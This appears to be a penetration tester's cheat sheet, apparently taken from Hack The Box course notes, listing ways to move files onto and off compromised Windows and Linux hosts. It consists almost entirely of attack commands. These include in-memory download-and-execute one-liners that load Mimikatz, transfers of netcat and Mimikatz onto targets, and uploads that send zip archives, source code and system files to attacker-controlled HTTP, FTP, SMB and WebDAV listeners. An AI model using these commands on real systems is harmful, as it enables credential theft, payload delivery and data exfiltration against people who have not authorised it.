 ## Download Powershell/bitsadmin/wget/php/scp

|**Command**|**Description**|
|---|---|
|`Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`|Download a file with PowerShell|
|`IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`|Execute a file in memory using PowerShell|
|`Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`|Upload a file with PowerShell|
|`bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`|Download a file using Bitsadmin|
|`certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`|Download a file using Certutil|
|`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`|Download a file using Wget|
|`curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`|Download a file using cURL|
|`php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`|Download a file using PHP|
|`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`|Upload a file using SCP|
|`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`|Download a file using SCP|
|`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`|Invoke-WebRequest using a Chrome User Agent|


## Download SMB

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```cmd-session
copy \\192.168.220.133\share\nc.exe
```

Authorized smb server creation
```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```


mout share:
```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

## Donwload FTP

Install
```shell-session
sudo pip3 install pyftpdlib
```

```shell-session
sudo python3 -m pyftpdlib --port 21
```

PowerShell Download
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://10.10.14.149/upload_win.zip', 'C:\Users\Public\ftp-file.txt')
```

## Upload file with PowerShell
```shell-session
pip3 install uploadserver
```
```shell-session
python3 -m uploadserver
```
```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```


## Upload PowerShell and Netcat
On RHOST:

```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path "C:\Tools\20231222055409_ILFREIGHT.zip" -Encoding Byte))

PS C:\htb> Invoke-WebRequest -Uri http://10.10.14.186:8000/ -Method POST -Body $b64
```
On LHOST:
```shell-session
nc -lvnp 8000
```
```shell-session
Tachipy@htb[/htb]$ echo <base64> | base64 -d -w 0 > hosts
```

## Upload SMB Over HTTP:

```shell-session
Tachipy@htb[/htb]$ sudo pip install wsgidav cheroot
```
```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```
```cmd-session
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

## Upload FTP

LHOST
```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```
RHOST
```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
